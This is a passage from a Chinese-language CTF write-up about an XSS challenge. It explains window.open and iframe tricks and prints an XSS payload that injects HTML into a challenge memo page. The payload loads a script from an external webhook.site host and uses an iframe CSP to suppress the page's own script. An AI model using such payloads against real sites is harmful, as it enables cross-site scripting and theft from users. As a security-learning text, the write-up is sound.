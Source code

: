 之所以可以這樣，是因為剛開啟之後會有一小段時間，開啟的 window 跟當前 window 是 same-origin，所以這一段時間是可以操作它的，接著才會被導到要前往的 URL。

雖然失去了 opener，表面上看起來跟開啟後的 window 脫節了，但其實利用 name 屬性就能夠再次存取到它，這點我以前有寫過：[iframe 與 window.open 黑魔法](https://blog.huli.tw/2022/04/07/iframe-and-window-open/#windowopen)。

解決了 opener 的問題以後，就可以來看另一個最麻煩的地方，就是那一段 script，如果能讓它不執行，那很輕鬆就能做到 XSS。但要怎麼讓它不執行呢？以前有[寫過](https://blog.huli.tw/2022/04/07/iframe-and-window-open/#iframe-%E7%9A%84-csp) iframe 上有個屬性叫做 csp，加上它之後就可以設置 CSP。

如同前面所說的，因為 same-site cookie，因此要直接利用題目的 memo 功能嵌入，程式碼如下（修改自 Jazzy 在 Discord 中提供的 payload）：

```
<script>
  const challengeHost = 'http://localhost:1337'
  function openNoOpener(url, name) {
    let w = window.open(url, name)
    w.opener = null
  }

  let html = `
    html
    <script src="http://webhook.site/0fdd5e6d-0882-44de-b593-212aecf604c1"><\/script>
    <iframe csp="script-src http: https:" src="/"></iframe>
  `;

  openNoOpener(`${challengeHost}/memo?memo=${encodeURIComponent(html)}`, 'main');
</script>
```

利用 CSP 不讓 inline script 執行，然後再載入一次網頁，就會執行原本準備好的 script。不過我實際試了一下，現在最新版會有錯誤：

> Refused to display ‘<http://localhost:1337/>‘ in a frame. The embedder requires it to enforce the following Content Security Policy: ‘script-src http: https:’. However, the frame neither accepts that policy using the Allow-CSP-From header nor delivers a Content Security Policy which is at least as strong as that one.

如果頁面原本沒有 csp 的話，是沒辦法硬要加上去的。從賽後討論看起來比較舊版的 Chrome 對於 same-origin 的 csp 似乎限制沒這麼嚴格，因此只有在舊版可以（不過我也不確定就是了，我懶得找舊版來試了）。

接著講一下預期解，預期解牽涉到了很多 iframe 相關的知識，我陸續花了大概一週才真的理解到底預期解為什麼可以 work，為了方便理解，我把它拆成幾個小部分，順著看完應該就可以理解最後的預期解了。

### 1. iframe 的 navigation

由於 iframe 是一個獨立的 window，因此 iframe 本身當然也可以做 navigation，導去其他的地方。假設在網頁上有一個 iframe，原本的 src 是 A，接著你把 src 改成 B，此時如果按下上一頁（或是執行 `history.back()`），會發生什麼事情呢？有兩個可能性：

1. 整個網頁（top level）回到上一頁
2. iframe 回到上一頁（從 B 回到 A）

答案是 2，也就是說，當你在做 navigation 的時候，iframe 的紀錄也會被加進整體的 history 裡面。

知道這個前提之後，就可以來看一個狀況：

```
<body>
  <iframe sandbox id=f src="data:text/html,test1:<script>document.writeln(Math.random())</script>"></iframe>
  <button onclick="loadTest2()">load test2</button>
</body>
<script>
  function loadTest2() {
    f.removeAttribute('sandbox')
    f.src = 'data:text/html,test2:<script>document.writeln(Math.random())<\/script>'
  }
</script>
```
